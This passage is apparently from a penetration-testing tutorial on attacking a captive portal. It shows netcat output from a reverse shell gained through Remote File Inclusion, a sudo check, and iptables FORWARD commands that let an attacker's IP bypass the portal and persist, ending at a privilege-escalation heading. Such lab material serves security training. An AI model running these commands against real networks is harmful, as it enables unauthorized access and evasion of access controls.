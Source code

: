 listening on [any] 4444 ...
connect to [192.168.0.19] from (UNKNOWN) [192.168.0.6] 43618
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
</code></pre>
<hr/>
<h2>Granting Exception</h2>
<p>At this point, we have successfully exploited Remote File Inclusion (RFI) to gain a reverse shell on the target web server. We can now explore privilege escalation techniques or bypass the captive portal’s authentication system entirely.</p>
<p>A common misconfiguration in some captive portal applications involves improper visudo settings. Specifically, www-data may have permission to execute the iptables command as a sudoer without requiring a password. This misconfiguration makes it much easier to manipulate firewall rules directly through a PHP script.</p>
<p>We can check for this vulnerability by running the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo -l

Matching Defaults entries for www-data on Captive:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on Captive:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/sudo -l
    (ALL) NOPASSWD: /sbin/iptables-save
    (ALL) NOPASSWD: /sbin/iptables
</code></pre>
<p>If www-data has unrestricted access to <code>iptables</code>, we can leverage this to modify network rules and extend our access. If we find that www-data can execute iptables without requiring a password, we may be able to create our own exception. Before doing so, we should gather information about the captive portal’s network interfaces to determine the correct forwarding rules.</p>
<p>We can list the available network interfaces using:</p>
<pre><code class="language-shell-session">[!bash!]$ ifconfig

eth0: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 192.168.0.6  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::13c4:77b5:257f:3881  prefixlen 64  scopeid 0x20&lt;link&gt;
        ether c8:d9:d2:7c:a1:ca  txqueuelen 1000  (Ethernet)
        RX packets 15073  bytes 1490246 (1.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12653  bytes 1857062 (1.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 127  base 0x9000
wlan0: flags=4099&lt;UP,BROADCAST,MULTICAST&gt;  mtu 1500
        ether 7a:d6:b6:67:f2:a8  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>
<p>Then, we can create a forwarding rule that allows traffic to bypass the captive portal by specifying our IP address:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo iptables -A FORWARD -s &lt;our-ip&gt; -j ACCEPT
</code></pre>
<p>For added persistence, we can manually assign ourselves a static IP when connecting to the network. This ensures that our forwarding rule remains effective even if the network attempts to reassign IP addresses dynamically.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo iptables -A FORWARD -i wlan0 -o eth0 -s 192.168.0.19 -j ACCEPT
</code></pre>
<hr/>
<h3>Performing Privilege Escalcation</h3>